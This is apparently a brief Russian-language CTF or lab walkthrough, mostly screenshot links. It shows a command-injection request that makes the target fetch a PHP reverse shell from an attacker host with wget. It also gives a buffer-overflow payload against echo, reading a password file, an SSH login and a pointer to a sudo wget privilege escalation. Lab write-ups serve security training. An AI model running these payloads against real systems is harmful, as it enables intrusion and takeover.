 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1a38ac51-1a71-40a9-9c4d-27dcbd325b4c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/129f46fa-dfea-4027-aa7e-82b8a1a399c2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec09e955-ff2b-4d52-9d4a-46465ac1556a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7cee6efb-9ccb-4798-9a2a-ddec783d331d)

Кидаем реверс php

GET /search.php?q=%22%3bwget%20ip:1234/test1.php%3b%22

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9bbdcef7-fd6c-4aae-8c64-6478e7d687da)

`find / -user nolan`

echo

https://cocomelonc.github.io/pwn/2021/10/19/buffer-overflow-1.html

```
./usr/bin/echo $(python3 -c 'print("A"*8001+"\x01")')
```

Читаем файл .secret там пароль

Заходим по ssh `ssh nolan@62.173.140.174 -p 18822`

`sudo -l`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9e6a487a-8efe-43f2-ac46-d5ce87921409)

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-wget-privilege-escalation/



